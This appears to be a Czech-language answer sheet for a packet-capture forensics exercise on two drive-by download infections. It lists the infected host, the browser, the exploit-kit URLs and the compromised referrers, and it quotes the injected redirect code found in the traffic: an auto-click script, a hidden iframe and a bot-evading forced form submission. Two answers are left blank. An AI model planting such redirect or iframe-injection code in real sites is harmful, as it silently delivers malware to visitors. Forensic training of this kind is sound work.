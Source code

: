 # Zadání první části – soubor uloha1.pcap

### 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

### 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

User-Agent:
```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

### 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

### 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

### 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap

### 1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?

```
http://tyu.benme.com/%3fct=Vivaldi&biw=Vivaldi.95ec76.406i7c5k7&oq=h8fItKeRVawGyjRaFcw1nyYdeAwgQ8_qtiEKBzBKfgZ6D-hyMZAh1z6LRVvQ42w&tuif=2320&q=wH7QMvXcJwDNFYbGMvrER6NbNknQA0KPxpH2_drZdZqxKGni2Ob5UUSk6FqCEh3&yus=Vivaldi.114tq57
```

### 2. Jak se uživatel dostal na danou doménu?

`http://retrotip.visionurbana.com.ve/dle_js.js`

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```

### 3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?

```

```

### 4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```

```

alebo

```
var NormalURL = 'http://tyu.benme.com/?oq=CEh3h8_svK7pSP1LgiRbVcgU3n45bWw8S_6qviBCBmBWUhcSHrxLeNwt1z6I&q=wH7QMvXcJwDIFYbGMvrETKNbNknQA06PxpH2_drZdZqxKGni0ub5UUSk6Fy&tuif=5921&br_fl=5828&biw=Vivaldi.82ss74.406q9e2t1&yus=Vivaldi.80lf74.406f5d1w2&ct=Vivaldi';


function start() {
	BrowserInfo = getBrowser();

	if(BrowserInfo.is_bot == true) {
		document.write('');		
			} else {
      if(BrowserInfo.browser_real=='ie') {
		    window.frames[0].document.body.innerHTML = '<form target="_parent" method="post" action="'+NormalURL+'"></form>'; 
		    window.frames[0].document.forms[0].submit();
      }
	}
	
}
```
